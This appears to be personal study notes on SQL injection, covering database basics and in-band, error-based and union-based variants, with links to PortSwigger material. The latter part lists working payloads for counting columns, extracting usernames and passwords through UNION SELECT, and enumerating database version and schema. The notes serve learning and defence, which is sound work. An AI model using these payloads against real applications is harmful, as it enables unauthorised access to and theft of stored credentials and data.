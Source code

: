 # SQL Injection
[Back to Cyber security page](./index.md)

---

## What is Database?
A database is a way of electronically storing collections of data in an organised manner. A database is controlled by a DBMS which is an acronym for  Database Management System, DBMS's fall into two camps Relational or Non-Relational, the focus of this room will be on Relational databases,  some common one's you'll come across are MySQL, Microsoft SQL Server, Access, PostgreSQL and SQLite. 

---

## SQL
SQL (Structured Query Language) is a feature-rich language used for querying databases, these SQL queries are better referred to as statements.

---

## What is SQL Injection?
The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

### In-Band SQL Injection
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

### Error-Based SQL Injection
This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 

### Union-Based SQL Injection
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


---

## SQL injection examples

There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

-   [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data), where you can modify an SQL query to return additional results.
-   [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic), where you can change a query to interfere with the application's logic.
-   [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
-   [Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database), where you can extract information about the version and structure of the database.
-   [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses.


### UNION Attacks

SQL injection UNION attacks
> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Determining the number of columns required in an SQL injection UNION attack
> ' ORDER BY 1-- 
> ' ORDER BY 2-- 
> ' ORDER BY 3-- 
> etc.

>' UNION SELECT NULL-- 
>' UNION SELECT NULL,NULL-- 
>' UNION SELECT NULL,NULL,NULL-- 
>etc.

Finding columns with a useful data type in an SQL injection UNION attack
>' UNION SELECT 'a',NULL,NULL,NULL--
>' UNION SELECT NULL,'a',NULL,NULL--
>' UNION SELECT NULL,NULL,'a',NULL--
>' UNION SELECT NULL,NULL,NULL,'a'--

Using an SQL injection UNION attack to retrieve interesting data
>' UNION SELECT username, password FROM users--

Retrieving multiple values within a single column
>' UNION SELECT username || '~' || password FROM users--

### Examining the database

Retrieving data from other database tables
>SELECT * FROM v$version
>SELECT * FROM information_schema.tables

Querying the database type and version
>Microsoft, MySQL	SELECT @@version
>Oracle	SELECT * FROM v$version
>PostgreSQL	SELECT version()
>For example, you could use a UNION attack with the following input: ' UNION SELECT @@version--

Listing the contents of the database
>Non oracle:
>SELECT * FROM information_schema.tables
>SELECT * FROM information_schema.columns WHERE table_name = 'Users'
>Oracle :
>SELECT * FROM all_tables
>SELECT * FROM all_tab_columns WHERE table_name = 'USERS'


### Blind SQL injection vulnerabilities





---

## Source
- [PortSwigger video](https://youtu.be/wX6tszfgYp4)
- [PortSwigger website](https://portswigger.net/web-security/sql-injection)
- [PortSwigger Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

